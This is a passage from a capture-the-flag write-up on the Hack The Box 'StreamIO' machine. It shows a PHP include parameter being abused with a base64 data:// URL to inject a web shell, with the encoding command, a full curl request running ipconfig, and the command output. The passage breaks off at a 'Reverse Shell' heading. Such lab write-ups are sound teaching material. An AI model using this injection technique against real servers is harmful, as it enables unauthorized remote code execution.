 We have some PHP at the end of the file that has an input field called include. It checks if the request has include in it, if it does and it's not a value of index.php then it includes that in the page. Why would you do that? To allow us to do remote code execution of course!

## Web Shell

[This](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs) article explains how to base64 encode data URLs, and [this](https://rastating.github.io/miniblog-remote-code-execution/) has an example of exploiting it. We can use this to inject a simple PHP web shell on to the page like we did on [Nineveh](https://pencer.io/ctf/ctf-htb-nineveh) and more recently [Timing](https://pencer.io/ctf/ctf-htb-timing).

First base64 encode this:

```php
system($_GET['cmd']);
```

On Zsh you have to make it a variable by adding dollar at the start and then escape the apostrophe's:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# echo -n $'system($_GET[\'cmd\']);' | base64
c3lzdGVtKCRfR0VUWydjbWQnXSk7
```

Now we can use that as a parameter to execute commands. We can use the same curl command as before, but now add the include data URL part with out base64 encoded system command. Then we can add our &cmd= parameter on the end, here I've put ipconfig as an example:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# curl -s -k -X POST --cookie 'PHPSESSID=3k47ea2n095607g9vukkpvhu72' --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" 'https://streamio.htb/admin/?debug=master.php&cmd=ipconfig' | sed -n '/<input name="include" hidden>/,$p'
<input name="include" hidden>
</form>
Windows IP Configuration
Ethernet adapter Ethernet0 2:
   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::1ce
   IPv6 Address. . . . . . . . . . . : dead:beef::8c24:df77:f0ea:ebe5
   Link-local IPv6 Address . . . . . : fe80::8c24:df77:f0ea:ebe5%12
   IPv4 Address. . . . . . . . . . . : 10.10.11.158
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:6ddc%12
                                       10.10.10.2
                </div>
        </center>
</body>
</html>
```

## Reverse Shell
